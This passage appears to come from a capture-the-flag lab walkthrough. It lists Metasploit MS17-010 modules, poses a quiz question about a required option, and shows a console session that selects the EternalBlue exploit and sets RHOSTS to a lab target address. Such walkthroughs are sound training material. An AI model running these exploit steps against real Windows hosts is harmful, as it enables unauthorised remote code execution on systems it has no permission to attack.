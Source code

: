 ```
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

`exploit/windows/smb/ms17_010_eternalblue`

3. Show options and set the one required value. What is the name of this value? (All caps for submission)

```
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.166.97
RHOSTS => 10.10.166.97
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.166.97     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```
